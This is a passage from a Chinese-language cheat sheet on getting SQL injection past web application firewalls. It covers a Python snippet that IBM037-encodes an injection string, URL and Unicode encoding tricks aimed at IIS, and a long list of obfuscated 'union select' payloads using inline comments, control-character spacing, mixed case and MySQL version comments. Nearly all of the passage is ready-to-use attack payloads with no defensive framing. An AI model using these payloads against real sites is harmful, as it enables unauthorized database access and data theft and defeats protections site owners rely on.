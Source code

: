附上处理编码的代码：  
```python
import urllib.parse
s = 'id=-1 union select 1,user()-- &submit=1'
ens=urllib.parse.quote(s.encode('ibm037'))
print(ens)
```

## 0x36 URL编码绕过
在 iis 里会自动把 url 编码转换成字符串传到程序中执行。  
例如 union select 可以转换成 u%6eion s%65lect  

## 0x37 Unicode 编码绕过
Unicode编码形式：“\u”或者是“%u”加上 4 位 16 进制数。
iis 会自动进行识别这种编码 有部分 waf 并不会拦截这这种编码。  
-1 union select 1,user()  
部分转码：  
-1 uni%u006fn sel%u0065ct 1,user()  
全部转码：  
%u002d%u0031%u0020%u0075%u006e%u0069%u006f%u006e%u0020%u0073%u0065%u006c%u0065%u0063%u0074%u0020%u0031%u002c%u0075%u0073%u0065%u0072%u0028%u0029  

## 0x38 union select 绕过
目前不少 waf 都会使用都会对 union select 进行拦截 单个不拦截 一起就进行拦截。  
针对单个关键词绕过：  
```txt
sel<>ect 程序过滤<>为空 脚本处理  
sele/**/ct 程序过滤/**/为空  
/*!%53eLEct*/ url 编码与内联注释  
se%0blect 使用空格绕过  
sele%ct 使用百分号绕过  
%53eLEct 编码绕过 
```

大小写绕过：  
```txt
uNIoN sELecT 1,2
union all select 1,2
union DISTINCT select 1,2
null+UNION+SELECT+1,2
/*!union*//*!select*/1,2
union/**/select/**/1,2
and(select 1)=(Select 0xA*1000)/*!uNIOn*//*!SeLECt*/ 1,user()
/*!50000union*//*!50000select*/1,2
/*!40000union*//*!40000select*/1,2
%0aunion%0aselect 1,2
%250aunion%250aselect 1,2
%09union%09select 1,2
%0caunion%0cselect 1,2
%0daunion%0dselect 1,2
%0baunion%0bselect 1,2
%0d%0aunion%0d%0aselect 1,2
--+%0d%0aunion--+%0d%0aselect--+%0d%0a1,--+%0d%0a2
/*!12345union*//*!12345select*/1,2;
/*中文*/union/*中文*/select/*中文*/1,2;
/* */union/* */select/ */1,2;
/*!union*//*!00000all*//*!00000select*/1,2
```